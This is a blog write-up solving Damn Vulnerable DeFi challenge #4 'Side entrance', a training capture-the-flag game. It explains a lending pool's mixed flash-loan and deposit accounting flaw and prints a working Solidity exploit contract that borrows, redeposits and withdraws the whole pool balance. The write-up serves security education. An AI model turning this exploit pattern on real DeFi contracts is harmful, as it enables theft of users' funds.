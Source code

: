 ```yaml
---
title: 'Damn Vulnerable DeFi Challenge #4 Solution — Side entrance'
excerpt: 'Damn Vulnerable DeFi is the war game created by @tinchoabbate to learn offensive security of DeFi smart contracts.</br></br>The endgoal of this challenge is to leverage the free (no fee) flashloans to drain the pool.'
coverImage:
  url: '/assets/blog/ethereum.jpg'
  credit:
    name: Nenad Novaković
    url: https://unsplash.com/@dvlden
date: '2022-04-12T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethereum.jpg'
---
```


This is Part 4 of the ["Let’s play Damn Vulnerable DeFi CTF"](https://stermi.xyz/blog/lets-play-damn-vulnerable-defi) series, where I will explain how to solve each challenge.

> [Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html) is the war game created by [@tinchoabbate](https://twitter.com/tinchoabbate) to learn offensive security of DeFi smart contracts.
> Throughout numerous challenges, you will build the skills to become a bug hunter or security auditor in the space.

## Challenge #4  —  Side entrance

> A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.
>
> This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.
>
> You must take all ETH from the lending pool.

- [See contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.0.0/contracts/side-entrance)
- [Hack it](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/side-entrance/side-entrance.challenge.js)

## The attacker end goal

The endgoal of this challenge is to leverage the free (no fee) flashloans to drain the pool.

## Study the contracts

### `SideEntranceLenderPool`

The contract use `pragma solidity ^0.8.0;` so it will not be prone to math overflow/underflow

It has a `deposit` function where a supplier could send ETH. The function just account for your balance doing `balances[msg.sender] += msg.value;`. As we said, there’s no overflow/underflow problem given the Solidity version used.

It has a `withdraw` function that does not implement a Reentrancy guard, but it’s safe because it correctly follows the [Checks-Effects-Interactions Pattern](https://docs.soliditylang.org/en/v0.8.13/security-considerations.html#use-the-checks-effects-interactions-pattern) for which you update the internal state of the contract **before** any external interaction.  
In this function, the contract just get the account balance, reset it to 0 and send all the ETH back to the user.

The last function is the `flashLoan` one that takes only the `amount` to borrow as input parameter.

Inside the function the contract check that it has enough balance to allow the borrow operation, send the borrowed amount to the user calling `IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();` and finally check that after the loan has been executed the new balance (`address(_this_).balance`) is greater or equal of the old one (`balanceBefore`).

The issue with this contract is that they have two types of “accounting” system. One for the suppliers that can send and withdraw their ETH and another for the flash loans, that just take in considerations the balance of the contract but not the amount deposited on the user balances!

So, how could we take advantage of this issue?

## Solution code

First we need to create a new Contract because as you can see, only a contract can execute and receive the flash loans.

This temporary contract will

- Execute the flashloan
- Receive the funds implementing a `receive` function
- Deposit all the borrowed ETH into lending pool via the `deposit` function
- Repay back `0` ETH to the Lending Pool
- Withdraw all the deposited ETH from the Lending Pool
- Send to the attacker account the withdrawn ETH

How can this work? Well, because the Lending Pool allow us to `deposit` ETH it cannot (with the current implementation) know if those funds are from borrowed ETH or “normal” ETH.

So, when at the end of the `flashLoan` function it will check

`require(address(_this_).balance >= balanceBefore, “Flash loan hasn’t been paid back”);`

it will pass because we effectively deposited back all the borrowed ETH, with the exception that now we can withdraw them back because they have been accounted in our `balances[msg.sender]`

```solidity
// Do not use this code
// Part of the https://www.damnvulnerabledefi.xyz/ challenge

contract Executor is IFlashLoanEtherReceiver {
    using Address for address payable;

    SideEntranceLenderPool pool;
    address owner;

    constructor(SideEntranceLenderPool _pool) {
        owner = msg.sender;
        pool = _pool;
    }

    function execute() external payable {
        require(msg.sender == address(pool), "only pool");
        // receive flash loan and call pool.deposit depositing the loaned amount
        pool.deposit{value: msg.value}();
    }

    function borrow() external {
        require(msg.sender == owner, "only owner");
        uint256 poolBalance = address(pool).balance;
        pool.flashLoan(poolBalance);

        // we have deposited inside the `execute` method so we withdraw the deposited borrow
        pool.withdraw();

        // now we transfer received pool balance to the owner (attacker)
        payable(owner).sendValue(address(this).balance);
    }

    receive () external payable {}
}
```

You can find the full solution on GitHub, looking at [SideEntranceLenderPool.t.sol](https://github.com/StErMi/forge-damn-vulnerable-defi/blob/main/src/test/side-entrance/SideEntranceLenderPool.t.sol)

If you want to try yourself locally, just execute `forge test --match-contract SideEntranceLenderPooolTest -vv`

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION
